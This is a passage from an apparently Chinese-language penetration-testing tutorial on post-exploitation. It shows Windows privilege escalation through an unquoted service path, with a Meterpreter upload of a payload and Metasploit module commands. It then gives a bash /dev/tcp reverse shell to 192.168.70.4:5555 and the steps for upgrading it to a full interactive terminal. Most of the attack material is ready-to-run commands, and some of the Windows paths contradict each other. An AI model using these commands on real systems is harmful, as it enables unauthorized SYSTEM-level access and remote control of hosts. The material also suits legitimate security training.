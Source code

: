 此时可以向 `C:\Program File\admin Data` 目录上传一个名为“ `Vuln .exe`” 的攻击载荷。

```python
upload /root/tools/msf/"Vuln .exe" C:\\"Program File"\\"admin Data"\\"Vuln .exe"
```

![image-20241010100317483](https://image.201068.xyz/assets/38.后渗透/image-20241010100317483.png)

![image-20241010100340175](https://image.201068.xyz/assets/38.后渗透/image-20241010100340175.png)

服务重启后，系统会按照前文中说过的顺序依次检查服务路径

当检查到 `D:\Program Files\admin Data\Vuln.exe` 时，攻击载荷将以SYSTEM权限执行

##### 4.msf开始攻击

```python
background
sessions -l
use windows/local/unquoted_service_path
set session 5
run
```

![image-20241010101406626](https://image.201068.xyz/assets/38.后渗透/image-20241010101406626.png)

# Linux提权

## Linux提权

### 反弹 shell


```bash
bash -c 'bash -i >& /dev/tcp/192.168.70.4/5555 0>&1'
```

> `bash -c`：指定使用bash这个shell来执行后面的命令
>
> `bash -i`：启动一个交互式的shell
>
> `>&`：标准输出和错误输出都进行重定向
>
> `/dev/tcp/192.168.70.4/5555`：要重定向到的位置此处为192.168.70.4:5555
>
> `0>&1`：把标准输入重定向到标准输出

由于反弹shell得到的终端是半交互终端，很多命令用不了，所以可以使用下列方法升级为全交互终端

```python
#把使用的shell切换到bash。
bash			

# 使用Python来创建一个新的终端并在这个终端中启动bash。
python -c 'import pty; pty.spawn("/bin/bash")'		

# 将当前的进程（这里是反弹shell）发送到后台。
ctrl+z

# 改变终端的模式，使其进入“原始”模式，并关闭回显。stty raw：将终端从"cooked"模式切换到"raw"模式。在"cooked"模式下，终端会处理例如行编辑.回显等特性。而在"raw"模式下，这 些特性都是禁用的，数据会直接从键盘传到程序，没有任何处理。
stty raw -echo

# 将之前已经发送到后台的进程（在这里是你的反弹shell）带回到前台。
fg					

# 重置和初始化终端。
```